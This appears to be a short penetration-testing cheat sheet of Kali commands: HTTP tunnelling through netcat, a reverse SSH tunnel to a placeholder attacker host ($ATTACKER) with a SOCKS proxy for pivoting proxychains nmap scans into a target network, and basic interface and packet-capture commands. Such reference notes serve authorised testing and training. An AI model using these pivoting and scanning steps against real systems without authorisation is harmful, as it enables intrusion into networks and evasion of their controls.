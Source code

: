 ##### HTTP Tunneling

```
Kali> nc -vvn $TARGET 8888
CONNECT $TARGET2:80 HTTP/1.0
```

##### Proxychains

```
# create reverse ssh tunnel on our target
Kali> ssh -f -N -R 2222:127.0.0.1:22 root@$ATTACKER

# create on our attacking machine
Kali> ssh -f -N -D 127.0.0.1:8080 -p 2222

# Good to go
Kali> proxychains nmap -sV $TARGET
```

##### Networking

```
# Set IP

Kali> ifconfig eth0 xxx.xxx.xxx.xxx/24


# Calculate subnet

Kali> ipcalc xxx.xxx.xxx.xxx/24


# Bring devices up/down

Kali> ifconfig eth0 up
Kali> ifconfig eth0 down


# Get IP from DHCP

Kali> dhclient


# Log traffic for ICMP packets

Kali> tcpdump -i tun0 icmp


# Test from remote box

Kali> ping $ATTACKER -c 3
```
